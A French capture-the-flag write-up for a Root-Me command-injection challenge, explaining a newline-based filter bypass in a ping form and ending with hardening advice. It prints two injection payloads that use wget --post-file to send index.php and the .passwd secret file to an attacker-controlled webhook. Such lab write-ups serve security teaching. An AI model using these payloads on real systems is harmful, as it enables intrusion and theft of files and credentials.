





# Injection de commande - Contournement de filtre

https://www.root-me.org/fr/Challenges/Web-Serveur/Injection-de-commande-Contournement-de-filtre

## Découverte de la vulnérabilité

Le formulaire permet de pinger une adresse IP. Les tentatives d'injection via le navigateur avec des séparateurs classiques (`;`, `|`, `&`) ou des sauts de ligne échouent ("Syntax Error") car les caractères sont soit filtrés, soit mal encodés par le navigateur (URL encoding).

---

L'utilisation de `curl` permet d'envoyer directement le caractère de saut de ligne (`%0a`) brut, contournant ainsi le filtre `preg_replace` qui ne le cible pas. Nous injectons la commande `wget` avec l'option `--post-file` pour exfiltrer le code source (`index.php`) vers un serveur d'écoute (Webhook.site).

Payload : `ip=127.0.0.1%0awget --post-file=index.php [WEBHOOK_URL]`

---

L'analyse du code source récupéré révèle que le flag n'est pas codé en dur, mais lu depuis un fichier caché nommé `.passwd`.

Code identifié : `$flag = "".file_get_contents(".passwd")."";`

---

## Résultat

Nous adaptons notre charge utile pour exfiltrer le fichier sensible `.passwd` identifié précédemment.

Payload : `ip=127.0.0.1%0awget --post-file=.passwd [WEBHOOK_URL]`

Le serveur exécute la commande et envoie le contenu du fichier `.passwd` dans le corps de la requête POST reçue sur notre Webhook.

---

## Recommandations de sécurisation

- **Validation stricte (Whitelisting) :** Plutôt que de supprimer des caractères interdits (Blacklisting), validez que l'entrée correspond strictement au format attendu (ex: une regex validant uniquement une adresse IPv4).
- **Utilisation de fonctions natives :** Évitez l'utilisation de `shell_exec` ou `system`. Préférez les fonctions natives de PHP (ex: sockets) pour tester la connectivité réseau.
- **Échappement des arguments :** Si l'appel système est inévitable, utilisez `escapeshellarg()` et `escapeshellcmd()` pour neutraliser les caractères de contrôle shell.
